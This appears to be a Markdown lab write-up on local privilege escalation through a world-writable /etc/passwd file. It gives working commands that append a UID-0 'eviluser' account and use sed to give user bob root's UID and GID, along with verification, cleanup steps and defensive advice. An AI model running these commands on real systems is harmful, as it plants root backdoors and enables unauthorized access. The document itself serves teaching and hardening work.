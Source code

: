 ## 🔒 Use Case: Insecure /etc/passwd Permissions
### Assumed Misconfiguration:
* /etc/passwd has write permissions granted to a non-root user or group: e.g., mode 0666 or 0646.
* The file is owned by root but is world-writable or group-writable.
* PAM and shadow passwords are enabled (/etc/shadow exists and holds actual hashes).
___
## 🧪 Attack Scenario (Pre-Hardening Lab Test)
### 🎯 Objective:
Achieve unauthorized local privilege escalation or account backdooring by modifying /etc/passwd.
### 🔧 Lab Setup:
1. Create a test VM (e.g., Ubuntu/Debian-based) — never test this on production.
1. Temporarily set:
```bash
sudo chmod 666 /etc/passwd
```
> Simulates a file improperly left world-writable by a script or misconfiguration.
3. Confirm with:
``` bash
ls -l /etc/passwd
```
Expected output
```bash
-rw-rw-rw- 1 root root  <size> <timestamp> /etc/passwd
```
___
### 👨‍💻 Malicious Hacker Steps:
#### ✅ 1. Create a New Root-Privileged User
Append a new line to /etc/passwd:
``` bash
echo 'eviluser:x:0:0:root:/root:/bin/bash' >> /etc/passwd
```
* x: Placeholder because /etc/shadow is used for password storage.
* 0:0: UID and GID = 0 (root).
* This essentially creates a clone of root with a different name.
> Impact: Any user can now switch to root using the eviluser credentials, especially if they manipulate /etc/shadow too (not required for demonstration).
#### ✅ 2. Set Password for the Fake User
Set the shell of an existing non-root user to bash and UID to 0 in /etc/passwd, like:
``` bash
sed -i 's/^bob:[^:]*:[0-9]*:[0-9]*/bob:x:0:0/' /etc/passwd
```
* Changes UID:GID of user bob to root.
### 🔁 Verification (Post-Exploit):
``` bash
su eviluser
# or
su bob
```
Run
```bash
id
```
Expected output
``` bash
uid=0(root) gid=0(root) groups=0(root)
```
You've successfully escalated privileges by modifying a critical system file.
___
## Cleanup
* Restore correct file permissions:
```bash
sudo chmod 644 /etc/passwd
sudo chown root:root /etc/passwd
```
* Remove injected entries:
``` bash
sudo nano /etc/passwd
```
* Verify no account with UID 0 except root remains:
``` bash
awk -F: '($3 == 0) {print}' /etc/passwd
```
## 🔐 Defensive Recommendations:
* ### Permission Check Automation:
  * Periodic audit via cron or agent:
    ``` bash
    find /etc/passwd ! -perm 644 -exec chmod 644 {} \;
    ```
* ### Use File Integrity Monitoring (AIDE, OSSEC, Tripwire).
* ### Enable Mandatory Access Control (MAC):
  * AppArmor or SELinux to protect critical files from being altered by non-privileged processes.
* ### AuditD Rule Example:
  ``` bash
  -w /etc/passwd -p wa -k passwd_changes
  ```
  Track all modifications to /etc/passwd.
___
## 🧠 Final Thoughts:
This test highlights how a small deviation from default file permissions on a sensitive Linux system file like /etc/passwd can be immediately catastrophic. Even if /etc/shadow is secure, simply changing a UID to 0 provides a backdoor to full system access.






